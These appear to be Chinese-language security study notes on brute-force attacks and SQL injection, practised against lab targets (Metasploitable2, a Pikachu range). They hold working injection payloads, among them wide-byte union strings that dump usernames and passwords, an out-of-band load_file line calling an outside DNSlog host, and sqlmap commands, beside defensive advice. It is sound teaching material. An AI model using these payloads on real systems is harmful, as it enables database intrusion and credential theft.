

+++
title = "漏洞"
date = 2020-09-16

[taxonomies]
categories = ["安全"]
+++

# 暴力破解

### 实验环境

攻击环境：kali、win(burp)

靶机环境：metaspoloitable2-linux

### 漏洞原理

理论上暴力破解能够破解任何一种密码

暴力破解前提条件：服务器没有对输入的参数内容、次数进行限制(基于IP限制、基于账号限制)
<!-- more -->

破解成功的影响因素：

1. 算力
2. 字典精准率

### 攻击场景

B/S架构暴力破解包含如下分类：

1. 登录框（用户名和密码）
2. URL参数（用户ID值、目录名、参数名等）
3. 验证码（验证码接收处）

C/S加厚暴力破解包含如下分类：

1. Windows远程桌面rdp
2. SSH远程登录
3. 数据库账号密码（MySQL、MongoDB、Oracle）
4. FTP账号密码等

### 漏洞危害

枚举账号密码

枚举敏感目录、文件

枚举敏感数据

### 检测方法

手工检测

attack type:

1. sniper 针对单个参数进行测试

2. Battering ram
3.  
4.  

payload type:

1. simple list
2. runtime file
3. custom iterater
4.  
5. number
6.  
7.  
8. null payload

### 防御方案

- 要求用户使用复杂的强密码，避免使用任何已知的弱口令，强制密码设置为：至少三种字符，长度大于16或18位；

- 每次登陆时，均要求使用验证码（要注意验证码的健壮性）

- 对登陆行为进行判断和限制，当尝试次数达到限制时，锁定账户或者IP地址

- 禁止密码输入频率过高的请求

- 采用双因素认证（多因素认证）

  - 【问】常见的双因素认证方式有哪些？

  - 【问】双因素认证的三要素是什么？

    - 使用者所知道的内容：身份证或密码等
    - 使用者所拥有的物品：IC卡、U盾、动态密码卡等
    - 使用者所具备的特征：指纹、声音、瞳孔等

    ​       这三个要素单独来看都会有一点风险，比如知道的内容可能会被猜出、被分享、被遗忘；所拥有的的物品可能被盗走；所具备的特征本身易受到攻击。将其中两个结合起来进行认证的方式，就被称为双因素认证。
    ​       当同一来源的密码输入出错次数超过一定阈值时，立即通过邮箱或短信的方式通知系统管理员。
    ​       配置详细的网络访问控制，严格限制将高危端口开放到互联网；对于关键资产，建议使用 vpn 和堡垒机的方式进行集中管理和审计。
    ​       提高全员安全意识，禁止借用和共享账号，禁止明文存储密码或公开密码规则。

### 绕过方案


### 实战案例


### 参考资料


# SQL注入

几乎所有的数据源都可能存在注入漏洞。

当攻击者将恶意代码发送到解释器时就 可能存在注入漏洞

1998年《Phrack》54期，rtf的黑客发表的“NT Web Technology Vulnerabilities”

SQL注入产生的原因：黑客通过构造包含恶意sql语句的*输入*，而Web应用未对用户输入进行*合法性校验*（数据长度、数据类型、数据内容（比如政治敏感）），使得这些恶意代码被数据库*正确执行*所导致。

基于技术原理分析原理通常是因为：不当的类型处理（比如手机号中可以输入非法字符）、不安全的数据库配置、不合理的查询集处理、不当的错误处理、转义字符处理不当、字符编码处理不当等。


产生SQL注入攻击的两个必要条件：

1. 用户能够控制数据的输入
2. 用户输入的数据被当做代码执行

SQL语言能做什么，SQL注入漏洞就能做什么


什么是数据库？


表头(header): 每一列的名称;

列(col): 具有相同数据类型的数据的集合;

行(row): 每一行用来描述某个人/物的具体信息;

值(value): 行的具体信息, 每个值必须与该列的数据类型相同;

键(key): 表中用来识别某个特定的人\物的方法, 键的值在当前列中具有唯一性。


DBMS：数据库管理系统（Data Base Management System），是一种操作和管理数据库的大型软件，用来建立、使用和维护数据库


什么是SQL语言？

SQL 是用于访问和处理数据库的标准的计算机语言。 全称：结构化查询语言（Structured Query Language）
sql 包含 6 个部分：
1、数据查询语言（DQL:Data Query Language）：从数据表中获取数据。常用的关键字有 SELECT，WHERE，ORDER BY，GROUP BY 和 HAVING。
2、数据操作语言（DML：Data Manipulation Language）：对数据表中的数据进行操作。常用的关键字有 INSERT、UPDATE 和 DELETE。
3、数据定义语言（DDL）：其语句包括动词 CREATE、,ALTER 和 DROP。在数据库中创建新表或修改、删除表（CREAT TABLE 或 DROP TABLE）；为表加入索引等。
4、事务控制语言（TCL）：它的语句能确保被 DML 语句影响的表的所有行及时得以更新。包括 COMMIT（提交）命令、SAVEPOINT（保存点）命令、ROLLBACK（回滚）命令。
5、数据控制语言（DCL）：它的语句通过 GRANT 或 REVOKE 实现权限控制，确定单个用户和用户组对数据库对象的访问。某些 RDBMS 可用 GRANT 或 REVOKE 控制对表单个列的访问。
6、指针控制语言（CCL）：它的语句，像 DECLARE CURSOR，FETCH INTO 和 UPDATE WHERE CURRENT 用于对一个或多个表单独行的操作。
最常使用的 sql 语句是增删改查。
数据库大致可分为两种：关系型数据库和非关系型数据库。

关系数据库管理系统（Relational Database Management System：RDBMS）是指包括相互联系的逻辑组织和存取这些数据的一套程序 (数据库管理系统软件)。 常见的关系型数据库管理系统：Oracle、SQL Server、MySQL、Access、PostgreSQL、SQLite、DB2、vfp、Sybase 等。
概念：
存储方式：数据库中以表的存储方式，数据以行列的方式的存储。
存储结构：创建表时定义字段（列），之后再根据表结构存储数据（行）。
优点：
格式统一：都使用表的结构。
标准化：使用 SQL 语句对数据库进行查询，可以支持复杂操作（多表查询等）。
缺点：
表结构固定，灵活性欠缺。
高并发时读写性能低。
数据库的可扩展性和可用性低。

非关系数据库（Not Only SQL：NoSQL）泛指非关系型的数据库。严格意义上讲非关系型数据库是一种区别于关系型数据库的数据结构化存储方法的集合，可以是键值对存储、列存储、文档存储、还可以是图形存储。 常见的非关系型数据库：NoSQL、Redis、HBase、MongodDB、Neo4j 等。
概念：
存储方式：键值对（key/value）、列存储、文档、图形四大分类。
存储结构：结构不固定。
优点：
速度快，可以使用硬盘或者内存卡做载体，所以快，较关系型只能使用硬盘。
高扩展性。
格式灵活，可以是 key/value 形式、图形、文档、列等很灵活。
成本低，部署简单。
缺点：
不提供 SQL 支持，学习和使用成本较高。
存储简单数据。
数据结构相对复杂，复杂查询方面稍欠。


select *（字段） from 表名

select *（字段） from 表名 where 列名;


select *（字段） from 表名 where 列名 like "关键词";

Mysql的通配符是 %


create user 'test' identified by '123456';
创建一个用户名为test 密码为123456的用户

为用户授权：
grant all privileges on persons.* to test@localhost identified by '123456';
授权test用户拥有persons数据库的所有权限 可以指定数据库
grant all privileges on *.* to test@localhost identified by '123456';
授权test用户拥有所有数据库的所有权限
在进行完以上操作后要刷新权限
flush privileges;

删除用户：
drop user test@'%';

修改用户密码：
这里有两种一种使用 alter 一种使用 update：
alter user test@'%' identified by '123456';   修改test用户密码为123456
或者
update mysql.user set authentication_string=password("123456") where User="test" and Host="%";
flush privileges;


 select @@version_compile_os;





数据类型：字符型(char)、数值型(int)、浮点型(float)、日期和时间类型。


从表 Persons 中选出 Year 字段大于 1965 的数据
SELECT * FROM Persons WHERE Year>1965

SELECT * FROM Persons WHERE FirstName='Thomas' AND LastName='Carter';

`ORDER BY` - 语句用于根据指定的列对结果集进行排序。 

UNION - 操作符用于合并两个或多个 SELECT 语句的结果集。

SELECT COUNT(1) AS totals FROM Persons;


database()

select database();

mid()    这个函数作用是从指定字段中提取出字段的内容。column_name：字段名 start：开始位置 length:长度

limit()	返回结果中的前几条数据或者中间的数据。SELECT * FROM TABLE LIMIT M,N;m是指记录开始的index，从0开始，表示第一条记录。n是指从第m+1条开始，取n条。

group by 根据想要的规则对结果进行分组。

substr() 截取字符串 substr(a,b,c) a 所要截取字符串 b 截取的位置 c 截取的长度 这个函数很常用，有三个参数，按顺序分别是字符串，起始位置和长度。可以求指定字符串的子串。当然，第一个参数可以是列的名字。这个函数似乎和mid没有什么不同，如果mid或者substr中的某一个函数被禁了就用另一个。


ORD() 函数返回字符串第一个字符的 ASCII 值。

select ord(mid(database(),1,1))>110;

select ord(mid(database(),2,1))>111;


### 漏洞原理

##### sql注入分类

根据数据类型分类：

数字型

select * from tables where id=1;

注入点：id=

id=1

id=1'

sql语句中，由两个部分组成，代码和数据

`select * from tables where id=1';` 报错

`select * from tables where id=1' and 1=1;` 报错

`select * from tables where id=1' and 1=1 --;` 报错

`select * from tables where id=1' and 1=1 #` 有回显，有数据

`select * from tables where id=1' and 1=3 #` 有回显，无数据

注意点：数字型sql注入通常出现在弱类型语言中，强类型语言较少。


字符型：

`select * from tables where id=1';` 报错

`select * from tables where id=1' and 'a'='a' #;` 有回显，有数据

 `select * from tables where id=1' and 'a'='b' #;` 无回显，有数据


`select * from tables where id=1 and '1'='1 #;` 报错

`select * from tables where id=1' and '1'='1 #;` 有回显，无数据

`select * from tables where id=1' and '1'='1;` 有回显，有数据


常见mysql注释符：

```
#
--
/*...*/
```


基于效果进行分类：


联合注入

union 用于合并两个或多个 select 语句的结果

select colums_name from tables_name union select x,y,z #

这里x,y,z的数量必须跟colums的数量是一样的，否则会报错

基于“union查询需要保证列数一致”这个查询逻辑，若不一致的话，则出现如下信息:
	The used SELECT statements have a different number of colums

根据这个点，可以不断设置后面的x,y,z参数，基于报错，猜测数据列


where user_id = '' union select 1,2 –'';


布尔注入

`select first_name,last_name from users where user_id = '' or 1=1 --''`


1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #
information_schema.tables
整个数据库中所有库和所对应的表信息 


`1' and (select count(column_name) from information_schema.columns where table_name= 0x7573657273)=8 #`


显错注入

' 报错，可能是注入点


延时注入

sleep


宽字节注入


搭建pikachu靶场

sudo docker build -t "pikachu" .

sudo docker run -d -p8915:80 pikachu

原理：

UTF-8

GBK

宽字节注入满足的条件：

1、数据库编码被设置为GBK

2、使用了转义函数，将get、post、cookie传递的参数进行过滤，一般用来过滤单引号、双引号、null等敏感字符（\）

常见的函数是：addslashes()、mysql_real_escape_string()


url编码

```
空格 %20
' %27
# %23
\ %5C
```

payload：`'`

因为有转义函数，所以就变成了`\'`

payload改为：`%df'`

转义后 `%df\'`

因此，url编码后payload为：

%df%5c%27

当mysql使用gbk编码时，会认为 %df%5c 是一个**宽字符**，payload 就变成了縗'


判断是否存在注入，和可显示的字段数

`1%df' union select 1,2#`

`1%df'%20union%20select%201,2#`

得出数据库名

`1%df'%20union%20select%201,database()#`

pikachu

得出表名

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`


`1%df'%20union select group_concat(column_name),2 from information_schema.columns where table_name=“users” #`


`limit((select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),3,1)`


```
1%df'%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=limit((select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),3,1)#
```

```
1%df'%20union%20select (select group_concat(column_name) from information_schema.columns where table_schema=(select database()) and table_name=(select table_name from information_schema.tables where table_schema=(select database())limit 3,1)),2#
```

```
1%df'%20union%20select%20(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=(select%20database())%20and%20table_name=(select%20table_name%20from%20information_schema.tables%20where%20table_schema=(select%20database())limit%203,1)),2#
```

````
1%df' union select(select group_concat(username,0x3b,password) from users),2#
````

```
1%df'%20union%20select%20(select%20group_concat(username,0x3b,password)%20from%20users),2#
```


堆叠注入（二次注入）


带外注入

```
1' union select load_file('\\\\sql.jd14sh.ceye.io')#
```


基于位置分类：

get注入

post注入

cookie注入

搜索注入

延时注入

盲注

base64注入


### SQLmap的使用

布尔注入

延时注入

显错注入

联合注入

二次（堆栈）注入

```
sqlmap -u "127.0.0.1:8915/vul/sqli/sqli_str.php?name=a"
sqlmap -u "127.0.0.1:8915/vul/sqli/sqli_str.php?name=a" -p name
sqlmap -r /home/pinginglab/2020091601.txt
```

注意：删除请求中的特殊符号如：星号


```
sqlmap -m /home/pinginglab/2020091602.txt
sqlmap -u "http://127.0.0.1:8915/vul/sqli/sqli_id.php" --data "id=1&submit=%E6%9F%A5%E8%AF%A2"

   --level=LEVEL     执行测试的等级（1-5，默认为1）
   --risk=RISK       执行测试的风险（0-3，默认为1）
```

### 参考文章

https://www.freebuf.com/sectool/164608.html

https://www.cnblogs.com/ichunqiu/p/5805108.html

http://www.vuln.cn/1992

http://www.vuln.cn/2035

http://www.91ri.org/6775.html


### 利用场景

获取管理员或其他用户账号密码信息

利用数据库漏洞提权（常见的是 windows 下的 mysql 提权）

获取数据库的所有信息

更改数据库中的数据，比如创建欺诈性记录、添加用户或者删除数据。


### 漏洞危害

攻击者可以使用 sql 注入来查询数据库中其他用户的凭证（用户账号密码）

sql 注入可能导致攻击者能够完全控制数据库服务器中的所有数据。

具体危害有：
    数据库信息泄露：比如泄露用户账号密码、身份证号、手机号等
    网页篡改：通过操作数据库内容修改网页展示的数据
    网页挂马：通过在数据库中嵌入网马链接来进行挂马攻击
    恶意操作：比如清空数据库、修改系统管理员账号密码等
    安装后门：利用数据库部分函数可以执行系统命令的特性给系统安装后门程序


### 防御方案

过滤（低级方法，无法完全防御 sql 注入攻击）或者说输入验证 检查用户输入的合法性，以确保输入的内容为正常的数据。这里要注意的是数据检查应当在客户端和服务端都执行，之所以要执行服务端验证，是因为客户端校验往往只是减轻服务器压力和提高用户的友好度，攻击者完全有可能通过抓包修改参数或者获得网页源代码后，修改校验合法性脚本，然后将非法内容通过修改后的表单提交给服务器等等手段绕过客户端的校验。因此，要保证验证操作确实已经执行，微医的办法就是在服务端也执行验证。但是这些方法很容易出现由于过滤不严格导致恶意攻击者可能绕过这些过滤的现象，需要谨慎使用。
预编译输入
在 php 中虽然可以使用mysqli_real_escape_string来对特殊字符进行转义，但是利用编码漏洞还是可以绕过，因此更多的是使用 PDO(PHP Data Objects)。PDO 采用预处理的方式，事先创建 sql 语句模板并发送到资料库，预留的值使用参数 ？ 标记，资料库将自动检查数据格式并转换特殊字符，这样就能确保参数不会污染 sql 执行语句，保持 sql 结构性。
严格控制 sql 权限，遵循最小权限原则，防止攻击者利用 sql 注入执行高权限的危险操作。
禁止回显报错信息 恶意攻击者往往会利用这些报错信息来判断后台 sql 的拼接形式，甚至是直接利用这些报错注入将数据库中的数据通过报错信息显示出来。
密文存储数据，这样即使数据库被拖走，也能增加攻击者破解关键信息的难度。


### 另

数据库名 database() schema()
当前登陆用户 USER() CURRENT_USER() SYSTEM_USER() SESSION_USER()
数据库版本 VERSION() @@VERSION @@GLOBAL.VERSION
路径相关 @@BASEDIR : mysql安装路径 @@SLAVE_LOAD_TMPDIR : 临时文件夹路径 @@DATADIR : 数据存储路径 @@CHARACTER_SETS_DIR : 字符集设置文件路径 @@LOG_ERROR : 错误日志文件路径 @@PID_FILE : pid-file文件路径 @@BASEDIR : mysql安装路径 @@SLAVE_LOAD_TMPDIR : 临时文件夹路径
字符串连接 concat(str1,str2) //将字符串首尾相连 concat_ws(separator,str1,str2) //将字符串用指定连接符连接 group_concat() //将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
SQL里的concat() 以及group_concat() 函数的使用
字符截断 left(str,index) //从左边第index开始截取 right(str,index) //从右边第index开始截取 substring(str,index) //从左边index开始截取 substr(str,index,len) //截取str,index开始,截取len的长度 mid(str,index,ken) //截取str 从index开始,截取len的长度
字符串比较函数 strcmp(expr1,expr2)//如果两个字符串是一样则返回0,如果第一个小于第二个则返回-1 find_in_set(str,strlist) //如果相同则返回1不同则返回0


绕过函数 instr(str1,substr) //从子字符串中返回子串第一次出现的位置
lpad(str,len,padstr) rpad(str,len,padstr) // 在str的左(右)两边填充给定的padstr到指定的长度len,返回填充的结果
延时函数 sleep() benchmark(1000000,sha(1))
编码函数 hex() ascii()
文件函数 load_file() //读文件路径可以用0x，char转换的字符 outfile select * into outfile '/tmp/test.txt' dumpfile //用法同上但是只能写入一行数据，常用于udf提权写dll

